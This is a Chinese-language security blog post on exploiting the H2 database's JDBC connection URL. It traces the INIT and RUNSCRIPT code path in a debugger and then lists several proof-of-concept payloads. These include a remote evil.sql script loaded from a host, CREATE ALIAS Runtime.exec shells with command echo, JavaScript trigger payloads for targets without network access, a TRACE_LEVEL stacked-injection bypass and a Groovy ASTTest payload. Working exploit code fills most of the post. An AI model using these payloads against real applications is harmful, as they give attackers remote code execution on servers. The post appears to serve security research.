 # Java JDBC Attack-H2

  
  
&lt;!--more--&gt;  
## 0x01 漏洞分析  
pom.xml  
```xml  
&lt;dependency&gt;    
    &lt;groupId&gt;com.h2database&lt;/groupId&gt;    
    &lt;artifactId&gt;h2&lt;/artifactId&gt;    
    &lt;version&gt;2.0.204&lt;/version&gt;    
&lt;/dependency&gt;  
```  
Demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
    
public class JDBC_H2Database {    
    public static void main(String[] args) throws Exception {    
        String ClassName = &#34;org.h2.Driver&#34;;    
        String JDBC_Url = &#34;jdbc:h2:mem:test;INIT=RUNSCRIPT FROM &#39;http://127.0.0.1:8888/poc.sql&#39;&#34;;    
        String username = &#34;root&#34;;    
        String password = &#34;root&#34;;    
        Class.forName(ClassName);    
        Connection connection = DriverManager.getConnection(JDBC_Url, username, password);    
    }    
}  
```  
poc.sql  
```sql  
DROP ALIAS IF EXISTS shell;  
CREATE ALIAS shell AS $$void shell(String s) throws Exception {  
    java.lang.Runtime.getRuntime().exec(s);  
}$$;  
SELECT shell(&#39;open -a Calculator&#39;);  
```  
在`getConnection()`打断点调试，跟进到`org.h2.Driver#connect()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172219414.png)
在这里调用了 JdbcConnection 构造函数，跟进查看，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172220508.png)
调用了`ConnectionInfo()`处理了 url，再调用了`SessionRemote(ci).connectEmbeddedOrServer`继续跟进  
这里调用了`Engine.createSession`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172222020.png)
跟进这里的`openSession()`，因为`init`不为空，所以会执行`prepareLocal()`和`executeUpdate`，跟进`prepareLocal()`，调用了`prepareCommand`解析 sql 字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172224466.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172225123.png)
解析完了sql字符串之后，进入到了`CommandContainer()`方法中，之后进行了返回进入到`command.executeUpdate()`方法中  
进入到`update()`方法中  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172255989.png)
继续进入到`prepared.update()`方法中  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172255128.png)
`prepared`就是`RunScriptCommand`类，所以进入到了其`update()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172256197.png)
接下来就行一条条执行 sql 语句  
其中`openInput()`，会从远端读取 sql 文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501172305324.png)
## 0x02 POC  
由于JDBC连接时`INIT`只能执行一条SQL语句，所以攻击方式比较有限  
出网，打 RUNSCRIPT  
```java  
jdbc:h2:mem:test;INIT=RUNSCRIPT FROM &#39;http://127.0.0.1:8888/evil.sql&#39;  
DROP ALIAS IF EXISTS shell;  
CREATE ALIAS shell AS $$void shell(String s) throws Exception {  
    java.lang.Runtime.getRuntime().exec(s);  
}$$;  
SELECT shell(&#39;open -a Calculator&#39;);  
```  
回显  
```java  
CREATE ALIAS SHELLEXEC AS $$String shellexec(String cmd) throws java.io.IOException{  
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter(&#34;\\A&#34;);   
    return s.hasNext() ? s.next() : &#34;&#34;;   
}$$;  
  
CALL SHELLEXEC(&#39;whoami&#39;);  
```  
不出网 jdk&lt;15  
poc1  
H2和MySQL一样有INFORMATION_SCHEMA。H2提取URL中的配置时是通过分割分号`;`来提取的，因此JS代码中不能有分号，否则会报错（可以加上反斜杠代表转义），`//javascript`是H2的语法  
在H2内存数据库中创建一个触发器 TRIG_JS，该触发器在向 INFORMATION_SCHEMA.TABLES 表插入数据后执行。触发器的主体是一个JavaScript脚本  
```java  
String url = &#34;jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;)\n$$\n&#34;;  
```  
poc2  
转义多次，利用 init 塞两条语句进去  
```  
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS EXEC AS &#39;String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd)\\;return \&#34;1\&#34;\\;}&#39;\\;CALL EXEC (&#39;open -a Caulator&#39;)  
```  
绕过  
INIT被过滤的时候，`TRACE_LEVEL_SYSTEM_OUT`,`TRACE_LEVEL_FILE`,`TRACE_MAX_FILE_SIZE`能触发堆叠注入，分号需要转义  
```java  
jdbc:h2:mem:test;TRACE_LEVEL_SYSTEM_OUT=1\;CREATE TRIGGER TRIG_JS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript  
Java.type(&#34;java.lang.Runtime&#34;).getRuntime().exec(&#34;calc&#34;)$$--  
```  
其中，如果目标机器存在groovy依赖，能打 AST 注解  
```xml  
&lt;dependency&gt;  
    &lt;groupId&gt;org.codehaus.groovy&lt;/groupId&gt;  
    &lt;artifactId&gt;groovy-sql&lt;/artifactId&gt;  
    &lt;version&gt;3.0.8&lt;/version&gt;  
&lt;/dependency&gt;  
```  
```java  
String url = &#34;jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE ALIAS T5 AS &#39;@groovy.transform.ASTTest(value={ assert java.lang.Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;)})def x&#39;&#34;;  
```  

---

> Author: N1Rvana  
> URL: http://localhost:1313/java-jdbc-attack-h2/  

